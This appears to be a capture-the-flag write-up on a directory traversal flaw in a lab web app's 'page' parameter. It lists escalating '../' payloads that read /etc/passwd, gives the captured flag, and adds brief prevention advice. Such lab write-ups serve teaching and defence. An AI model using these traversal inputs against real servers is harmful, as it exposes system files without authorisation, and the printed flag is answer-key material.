 # <span style="text-decoration: underline"> Directory browsing </span>

##### Tags : `url` , `directory` , `browsing` , `path` , `etc/passwd`
##### Server ip : `192.168.1.23 `
____

# <span style="text-decoration: underline">problem</span>
When we go to the `signin` page we go to the **http://192.168.1.23/?page=signin** page. We can see that this url takes a parameter called `page` and the value us `signin`. When we go to the `Survey` page we can see **http://192.168.1.23/?page=survey** and again the parameter `page` and the value this time is `survey`. We can see that the value represent the page that we want to be served.

When we change the value to somethig else, for exemple to `asdasd`, we get an alert saying **`wtf ?`**. Hmm... In this particular web application it is not apparent what is happening but it seems like a middle man is serving us whatever we ask it to serv. We can find this kind of challenge in many [**ctf**](https://ctftime.org/) challenges.

When we ask it to serve `../` (parent directory) it once again shows an alert saying **`Wtf ?`**. When we ask it to serve us `../../` it gives us an allert saying **`Wrong..`**. The answere changed. It seems like we are accessing to the parent directory, or at least it is simulating that. 

# <span style="text-decoration: underline">Solution</span>

Let's try some more parent directory and try to get the `passwd` file.

?> We are trying to get the `passwd` file because generally in `CTF` challenges we try to get this kind of files. In real life we would rather try to get other importent informations.

|Directory| Alert message|
|--|--|
|../etc/passwd| Wtf ?|
|../../etc/passwd| Wrong..|
|../../../etc/passwd| Nope..|
|../../../../etc/passwd|Almost. |
|../../../../../etc/passwd| Still nope.. |
|../../../../../../etc/passwd|Nope.. |
|../../../../../../../etc/passwd|Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0  |


# How to avoid the problem

This was once a real problem that destroyed many websites. It is extremely importent to restrict access of the web folder. In modern days this problem is easily avoided by putting the servers in containers but in case where we read files from our computer we should **never** go out of the dedicated directory.

# Flag

```text
b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0
```

# Resources